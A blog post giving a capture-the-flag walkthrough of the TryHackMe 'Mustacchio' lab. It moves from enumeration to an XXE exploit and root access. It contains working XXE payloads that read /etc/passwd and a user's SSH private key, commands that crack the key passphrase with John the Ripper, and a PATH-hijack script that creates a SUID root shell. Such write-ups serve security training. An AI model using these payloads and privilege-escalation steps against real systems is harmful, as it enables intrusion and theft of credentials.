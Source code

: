 ```yaml
---
slug: mustacchio
title: Mustacchio CTF
authors: [hueami]
tags: [tryhackme, ctf, xee, lpe]
comments: true
---
```


## Solving the Mustacchio Room on TryHackMe

This post details a comprehensive walkthrough of identifying and exploiting vulnerabilities within the as 'easy' tagged [Mustacchio](https://tryhackme.com/room/mustacchio) room on TryHackMe. The objective is to systematically enumerate services, exploit found vulnerabilities for initial access, escalate privileges, and capture flags, providing a technical perspective on ethical hacking practices.

<!-- truncate -->

### Initial Enumeration with Nmap

The initial step involved conducting a network scan using `nmap` to enumerate open ports and available services on the target:

```bash
nmap [target IP] -p0-
```

This scan identified several open ports:
```bash
22/tcp for SSH
80/tcp for HTTP
8765/tcp for ultraseek-http
```

### Discovering Hidden Resources with Feroxbuster

Subsequently, `feroxbuster` was employed to aggressively search for hidden directories and files, revealing a notable file: `users.bak`.

```bash
feroxbuster -u http://[target IP] -w ~/security/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

### Extracting Credentials

The `users.bak` file uncovered by `feroxbuster` contained what seemed to be user credentials:

`admin1868e36a6d2b17d4c2745f1659433a**********`

I utilized the password-cracking service [CrackStation](https://crackstation.net/) to decrypt the obscured password.

### Exploiting XXE to Gain Initial Access

Navigating to `http://10.10.3.119:8765`, I utilized the credentials previously discovered in `users.bak` to log in, unveiling a form designed for posting comments. Upon submission, the form presents a preview showcasing fields for Name, Author, and Comment, which intriguingly populate only when an XML containing corresponding tags is supplied. This peculiar behavior hinted at the potential for XML External Entity (XXE) exploitation.

Leveraging this insight, I crafted an XML payload aiming to probe for XXE vulnerabilities by attempting to fetch system files. The first payload sought to retrieve the `/etc/passwd` file to obtain possible users for ssh login:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<comment>
    <name>&file;</name>
</comment>
```

This yielded promising results, disclosing several user accounts, notably `joe` and `barry`.

To further exploit this avenue, a subsequent XML payload targeted the retrieval of SSH keys for these users. It became apparent that while Joe lacked an SSH key, Barry possessed one:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
    <name>&file;</name>
</comment>
```

However, the ssh key was secured with a passphrase, necessitating its decryption. Using the tools `ssh2john` and `john the ripper` alongside the famous `rockyou.txt` wordlist, I cracked the passphrase.

```bash
python /opt/homebrew/Cellar/john-jumbo/1.9.0_1/share/john/ssh2john.py ~/security/temp/id_barry.rsa > id_rsa_barry_hash

john --wordlist=~/security/wordlists/rockyou.txt ~/security/temp/id_rsa_barry_hash
```

With the decrypted key, I successfully SSH'd into the system as Barry:

```bash
ssh -i id_rsa_barry barry@[target IP]
```

Upon gaining access, I found the user flag.

### Privilege Escalation

For privilege escalation, I sought files with the SUID bit set, which could be exploited to gain elevated privileges. When a file with SUID bit has the owner `root`, the file is executed with `root`'s privileges, regardless of the user who executed the file:

```bash
find / -perm -u=s -type f 2>/dev/null
```

An intriguing file, `/home/joe/live_log`, was identified, with SUID flag set and the owner `root``. Analyzing it with `strings /home/joe/live_log` suggested it executed another program, `tail`, without an absolute path. This was exploitable via a path injection:

To exploit this, I created a malicious `tail` script, intending to copy the system's `tail` binary and obtain root's privileges by also setting the SUID bit:

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chmod 4777 /tmp/bash
```

By adjusting the `PATH` to prioritize the current directory, the system executed my malicious script instead of the legitimate `tail`:

```bash
export PATH=`pwd`:$PATH
```

Executing `/home/joe/live_log` then invoked my script, creating a SUID bash shell in `/tmp/bash`, which granted a root shell when run with the `-p` flag:

```bash
/tmp/bash -p
```

Accessing `/root/root.txt`, I captured the root flag, completing the privilege escalation process.

### Conclusion

This walkthrough of the Mustacchio room on TryHackMe highlights the criticality of detailed reconnaissance, methodical exploitation, and privilege escalation in cybersecurity. The tools and methodologies discussed, including `nmap`, `feroxbuster`, and the exploitation of XXE and SUID binaries, are essential for cybersecurity practitioners. This experience underscores the ongoing need for vigilance and ethical hacking skills in securing systems.

Engage with curiosity, continue learning, and uphold ethical hacking standards.
